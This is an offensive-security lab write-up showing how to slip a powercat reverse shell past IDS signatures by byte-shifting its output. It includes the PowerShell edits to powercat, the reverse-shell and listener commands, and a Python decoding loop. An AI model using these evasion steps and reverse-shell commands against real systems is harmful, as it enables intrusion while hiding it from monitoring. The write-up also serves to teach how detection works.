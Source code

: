# Bypassing IDS Signatures with Simple Reverse Shells

Most Intrusion Detection Systems \(IDS\) have signatures that can catch simple reverse shells going across the network. 

The thing that will get you flagged usually is the classic cmd prompt banner:

```text
listening on [any] 443 ...
connect to [192.168.2.79] from ws01 [192.168.2.149] 56079
Microsoft Windows [Version 10.0.17763.475]
(c) 2018 Microsoft Corporation. All rights reserved.
```

This can usually be bypassed relatively easily with some simple traffic obfuscation and this quick lab demonstrates just that.

{% hint style="danger" %}
**Warning**  
This technique is not meant to be used in real life red team operations!
{% endhint %}

## Environment and Setup

* Victim's Windows system capable of running powershell scripts
* Victim's system runs Powercat - netcat's Powershell implementation
* Attacker's Windows machine with a powercat listener
* Attacker's Linux machine with a netcat listener

## Execution - Encoding Responses

Since we want to obfuscate the outgoing traffic from the victim system to the attacking system, we need to obfuscate the responses generated by the reverse shell.

Let's modify powercat to achieve this. Int this lab, I will use a simple obfuscation technique - every ascii character will be shifted to the right by 1, so `a` will become `b`, `b->c`, `c->d` and so on, but base64 or any other encoding mechanisms could work.

In powercat.ps1, let's find the function `ReadData_CMD` and add a new line \(576 from the below graphic\):

```csharp
$Data = $Data | % {[byte]$_+1}
```

![](../../.gitbook/assets/annotation-2019-05-18-121935.png)

With the modified powercat, let's try establishing a reverse shell and catch it on the other end and see what happens:

```csharp
# victim
powercat -c 192.168.2.79 443 -e cmd

#attacker 
powercat -l -p 443 -v
```

Below shows the incoming reverse shell, but it's of course not readable since we shifted all the characters by one. Although this is enough to bypass IDS signatures relying on the cmd prompt banner crossing the network, the shell on itself is not very useful since we cannot read the results:

![](../../.gitbook/assets/annotation-2019-05-18-123445.png)

## Decoding Responses

We need to decode the responses by using the code we used earlier and make sure that we are now subtracting 1 rather than adding, so that `d` becomes `c`, `c->b`, `b->a` and so on:

```csharp
$Data = $Data | % {[byte]$_-1}
```

In powercat.ps1, find the function `WriteData_Console` and add the code just below the parameter declaration:

![](../../.gitbook/assets/annotation-2019-05-18-124925.png)

If we try establishing the reverse shell now, we can see it gets decoded nicely on the attacking system running powercat listener on Windows:

![](../../.gitbook/assets/annotation-2019-05-18-124837.png)

If we inspect the traffic, we confirm that the traffic is encoded:

![](../../.gitbook/assets/annotation-2019-05-18-130428.png)

## Decoding Responses in Linux

If we are listening for a shell in netcat on a Linux box with no powershell \(my kali was giving me a hard time trying to install powershell\), we need to hack together a filthy python loop that will do the decoding for us first:

{% code title="decode.py@kali" %}
```python
#!/usr/bin/python3
import os, time

global decoded
while 1:
    decoded = ""
    encodedFile = open("myfile", "rb+")
    i = 0
    last = ""
    encodedBytes = encodedFile.read()

    for byte in encodedBytes:
        if byte > 0 and byte <= 127:
            byte -= 1
        else:
            byte = 10

        if byte != last:
            decoded += chr(byte)
            last = byte
        i += 1

    if len(decoded) > 1:
        print(decoded)
    os.system("echo > myfile")
    time.sleep(1)
```
{% endcode %}

Let's launch the netcat listener on a linux box and pipe the output to `tee` so it can be put to a file `myfile`

{% code title="attacker@kali" %}
```text
nc -lvvp 443 | tee myfile
```
{% endcode %}

In another terminal, we need to launch the `decoder.py` which will read the `myfile` every second and will decode its content and wipe it:

{% code title="attacker@kali" %}
```text
./decoder.py
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-18-132903.png)

We can now send the reverse shell back from the windows machine and see how it works:

* Right - a compromised Windows system that will send a reverse shell to the attacker using powercat
* Top left - the reverse shell comes in, responses are encoded. This is where we can issue commands
* Bottom left - reverse shell responses are decoded

![](../../.gitbook/assets/revshell.gif)

